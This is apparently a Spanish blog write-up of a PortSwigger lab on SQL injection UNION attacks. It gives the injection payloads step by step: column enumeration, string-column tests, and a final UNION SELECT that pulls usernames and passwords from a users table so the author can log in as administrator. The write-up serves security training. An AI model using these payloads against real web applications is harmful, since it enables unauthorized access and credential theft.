 ```yaml
---
title: PortSwigger - SQL injection UNION attack, retrieving data from other tables.
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto SQL injection UNION attack, retrieving data from other tables. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

Primero hacemos click en **Gifts** o cualquiera do los filtros de búsqueda.

![](/images/images-portswigger-sqli/lab5-1.png)

Y podemos ver que se agrega a la url `filter?category=Gifts`.

![](/images/images-portswigger-sqli/lab5-2.png)

Nuestro objetivo es obtener la contraseña de administrador pero antes hay que enumerar. Primero enumeraremos la cantidad de columnas.

```sql
' UNION SELECT null -- -
```

![](/images/images-portswigger-sqli/lab5-3.png)

Vemos que con un `null` la página nos devuelve un error, pero con dos `null` la página se arregla, esto significa que hay 2 columnas.

![](/images/images-portswigger-sqli/lab5-4.png)

Ahora hay que comprobar que las columnas aceptan strings. Para eso cambiamos el primer null por una string entre comillas.

```sql
' UNION SELECT 'a',null -- -
```

![](/images/images-portswigger-sqli/lab5-5.png)

Ahora probamos la segunda columna.

```sql
' UNION SELECT 'a','b' -- -
```

Podemos comprobar que ambas columnas aceptan strings.

![](/images/images-portswigger-sqli/lab5-6.png)

Siguiendo la descripción del reto sabemos el nombre de las dos columnas y el nombre de la tabla, entonces reemplazamos y obtenemos la siguiente query:

```sql
' UNION SELECT username,password from users -- -
```

Después de enviar la petición vemos reflejado en la página nuestro resultado y obtenemos la contraseña.

![](/images/images-portswigger-sqli/lab5-7.png)

Con esta infomación podemos iniciar sesión, así que nos vamos a **My account**.

![](/images/images-portswigger-sqli/lab5-8.png)

Rellenamos los datos con el nombre y contraseña obtenidos anteriormente.

![](/images/images-portswigger-sqli/lab5-9.png)

Y completamos el reto.

![](/images/images-portswigger-sqli/lab5-10.png)


---

## [Anterior](/sql-injection-union-attack-finding-a-column-containing-text)
## [Siguiente](/sql-injection-union-attack-retrieving-multiple-values-in-a-single-column)